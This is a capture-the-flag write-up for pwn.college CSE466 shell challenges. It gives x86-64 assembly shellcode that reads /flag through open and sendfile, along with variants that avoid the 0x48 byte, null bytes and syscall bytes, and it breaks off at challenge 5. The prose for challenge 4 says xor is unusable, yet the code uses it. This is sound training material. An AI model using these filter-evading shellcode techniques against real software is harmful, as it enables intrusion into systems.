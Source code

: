 # pwn.college
## CSE466
### Shell
#### 1 - 2

We are asked to receive the flag in '/flag'. First, we write the assembly code corresponding to the shellcode that we want to generate:

```asm
.global _start


_start:
  movq $2, %rax  # open()
  leaq flag(%rip), %rdi # RIP relative addressing
  movq $0, %rsi
  movq $0, %rdx
  syscall
  
  movq %rax, %rsi
  movq $40, %rax # syscall sendfile
  movq $1, %rdi
  movq $0, %rdx
  movq $1000, %r10
  syscall

flag: .asciz "/flag"
```

Than, we need to compile it and dump its `.text` section with `objcopy`:

```
gcc -no-pie -nostdlib -o 1 1.s
objcopy -O binary --only-section=.text 1 1.raw
```

Now, all we need to do is provide this 1.raw as input to the binary and we get the flag!

#### 3
This challenge forbids us from using the H(0x48) byte in our shellcode. Unfortunately, this is the byte for the [REX](https://wiki.osdev.org/X86-64_Instruction_Encoding#REX_prefix) prefix, which is necessary when you use 64 bit operands with operations that don't support it.


Thankfully, push and pop can do long-mode operations without using the REX prefix, so we can use them instead of mov. But this removes our ability to do rip relative addressing. Here is the code that should achieve that:

```
#
# 1.s
# Shell
#
# Created by Yigit Colakoglu on 09/26/21.
# Copyright 2021. Yigit Colakoglu. All rights reserved.
#

.global _start


_start:
  pushq $2
  popq %rax
  pushq $0x1337025
  popq %rdi
  pushq $0
  popq %rsi
  pushq $0
  popq %rdx
  syscall
  
  pushq %rax
  popq %rsi
  pushq $40
  popq %rax
  pushq $1
  popq %rdi
  pushq $0
  popq %rdx
  pushq $1000
  popq %r10
  syscall

flag: .asciz "/flag"
```

#### 4 
This time, we can't use the 0x00 byte in our shellcode. Thankfully, we don't have to. We can't use `xor` to zero registers and some other tricks. Here is the assembly solution for that:

```assembly
#
# 1.s
# Shell
#
# Created by Yigit Colakoglu on 09/26/21.
# Copyright 2021. Yigit Colakoglu. All rights reserved.
#

.global _start


_start:
  pushq $2
  popq %rax
  pushq $0x1337026
  popq %rdi
  xor %rsi, %rsi
  xor %rdx, %rdx
  syscall
  
  pushq %rax
  popq %rsi
  pushq $40
  popq %rax
  pushq $1
  popq %rdi
  xor %rdx, %rdx
  xor %r10, %r10
  movw $1000, %r10w
  syscall

flag: .ascii "/flag"
```

#### 5
Shit, now we can't even use syscalls, we need to dynamically override the shellcode. What we need to do is, we first need to allocate space in our code for the syscalls using two `ret`instructions. (each `ret` is 1 byte while each `syscall` is 2). Than, we can just overwrite the addresses relative to `%rip`.

```assembly
